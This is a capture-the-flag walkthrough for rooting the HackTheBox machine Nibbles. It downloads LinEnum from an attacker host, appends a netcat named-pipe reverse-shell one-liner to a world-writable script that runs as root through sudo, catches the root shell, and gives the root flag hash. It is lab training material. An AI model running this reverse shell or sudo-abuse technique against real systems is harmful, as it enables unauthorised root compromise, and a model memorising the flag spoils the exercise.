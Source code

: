 ### Walkthrough: Privilege Escalation on HTB Box Nibbles
- #### **1. Extracting and Analyzing `personal.zip`**
	- **Command**:
    ```bash
    unzip personal.zip
    ```
- **Contents**:
    - A directory structure: `personal/stuff/monitor.sh`.
    - **`monitor.sh` Analysis**:
        - A monitoring script owned by `nibbler`.
        - Script is **world-writable**.
- #### **2. Enumerating for Privilege Escalation**
	- **Tool**: LinEnum.sh
	    - Download LinEnum:
        ```bash
        wget http://<your-attack-ip>:8080/LinEnum.sh
        ```
	    - Make executable:
        ```bash
        chmod +x LinEnum.sh
        ```
	    - Execute:
        ```bash
        ./LinEnum.sh
        ```
- **Key Findings**:
    - **Sudo Privileges**:
        ```plaintext
        User nibbler may run the following commands on Nibbles:
            (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
        ```
    - `nibbler` can execute `monitor.sh` as root without a password.
- #### **3. Crafting a Privilege Escalation Payload**
	- **Plan**:
	    - Append a reverse shell payload to `monitor.sh`.
	    - Execute the script with `sudo`.
	    - Catch the root shell on the attacker's listener.
	- **Payload**:
    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-attack-ip> 8443 >/tmp/f
    ```
    - Replace `<your-attack-ip>` with your attacking machine's IP.
- **Append Payload to `monitor.sh`**:
    ```bash
    echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a /home/nibbler/personal/stuff/monitor.sh
    ```
- #### **4. Executing the Script with Sudo**
	- **Command**:
    ```bash
    sudo /home/nibbler/personal/stuff/monitor.sh
    ```
- #### **5. Catching the Root Shell**
	- **Set Up Listener**:
    ```bash
    nc -lvnp 8443
    ```
- **Listener Output**:
    ```plaintext
    listening on [any] 8443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
    # id
    uid=0(root) gid=0(root) groups=0(root)
    ```
- #### **6. Capturing the Root Flag**
	- **Navigate to `/root`**:
    ```bash
    cd /root
    ```
	- **View `root.txt`**:
    ```bash
    cat root.txt
    ```
    


### **Key Takeaways**
1. **Privilege Escalation Lessons**:
    - Identify writable files with elevated privileges.
    - Modify scripts cautiously by appending payloads to avoid breaking functionality.
2. **Post-Exploitation Tasks**:
    - Always take detailed notes.
    - Explore alternate methods to achieve similar results for practice.
3. **Replication**:
    - Attempt the box again to reinforce understanding.
    - Explore different tools for enumeration, exploitation, and privilege escalation.



### Questions
- Escalate privileges and submit the root.txt flag.
	- de5e5d6619862a8aa5b9b212314e0cdd